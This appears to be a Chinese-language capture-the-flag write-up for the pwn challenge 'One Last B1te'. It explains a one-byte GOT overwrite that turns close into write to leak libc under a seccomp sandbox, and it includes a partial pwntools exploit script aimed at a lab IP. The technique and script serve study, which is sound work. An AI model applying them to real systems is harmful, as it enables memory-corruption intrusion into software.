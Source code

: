 ## week3
### One Last B1te
观察大佬的wp，能从中学到很多很好的pwn习惯；比如拿到二进制文件先seccomp观察沙箱；checksec观察保护机制等等<br>
这道题关键在于 Partial RELRO + 一字节任意写，使得我们可以修改got表的函数地址来执行我们想要的函数
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+8h] [rbp-18h] BYREF
  char v5[16]; // [rsp+10h] [rbp-10h] BYREF

  init(argc, argv, envp);
  sandbox();
  write(1, "Show me your UN-Lucky number : ", 0x20uLL);
  read(0, &buf, 8uLL);
  write(1, "Try to hack your UN-Lucky number with one byte : ", 0x32uLL);
  read(0, buf, 1uLL);
  read(0, v5, 0x110uLL);
  close(1);
  return 0;
}
```
在程序执行的最后`close(1)`关闭了标准输出流，正常思路来讲拥有这么大的溢出空间就会想到去ret2libc，但由于关闭了标准输出流导致泄露不了libc基址。此时应该想到我们可以1地址任意写，于是正好将close函数的got表地址重定向为其他函数。<br>
非常棒的是由于执行`close`函数之前才刚刚执行过read函数，此时参数依然残留在寄存器中，对其善加利用就可以想到`write`函数正好能利用上这些参数，将v5及其栈上的内容泄露出来。<br>
除此之外，还需要注意的是：
> 程序在新版Ubuntu24下编译，优化掉了CSU，此时我们很难利用ELF的gadget来ROP<br>

于是这里就只能利用`close`改`write`泄露栈内容来泄露libc，而不能调用`write`手动传参来泄露libc了<br>
__新知识点__：
1. 通过泄露栈上的`libc_start_main`函数地址从而获取libc基地址<br>
程序运行流程：`libc_start_main` -> `main` -> `libc_start_main`
因此当我们可以将栈中内容泄露时，如果泄露的范围比较大，就可以将`libc_start_main`函数中的某个偏移地址泄露出来，那么<br>
```python
libc_base = address - offset - libc_start_main_addr
```
拿到了libc基址后，再次考虑沙箱的问题。沙箱禁止了execve的执行，所以我们无法执行system拿到shell，只能考虑orw。<br>
做过这道题之后，获取libc基址的方法又多了一种：泄露栈内容来泄露libc<br>

2. glibc 2.39下，难以拿到rdx的gadget，代替方案：`pop rax` + `xchg eax, edx`<br>
`xchg`指令用于交换两个操作数的内容<br>
> `xchg`指令还有一个特点，那就是只占一个字节。这在许多高度限制shellcode长度的场景下非常有用<br>

exp:
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
elf = ELF("./pwn")
libc = elf.libc
local = 0
if local == 0:
    sh = remote("172.25.128.1", 56867)
else:
    sh = process("./pwn")
    gdb.attach(sh, "b main")
main = 0x4013a3
ret = 0x40101a
sh.sendafter(b"number ", p64(0x404028))
sh.sendafter(b"byte", b"\x50")
payload = cyclic(0x10+8) + p64(ret) + p64(main)
sh.sendline(payload)
print(sh.recv(0x10))
print(sh.recv(0xb8))
libc_offset = u64(sh.recv(8).ljust(8, b'\x00'))
libc_base = libc_offset - (0x77f0dcc2a28b - 0x77f0dcc00000)
```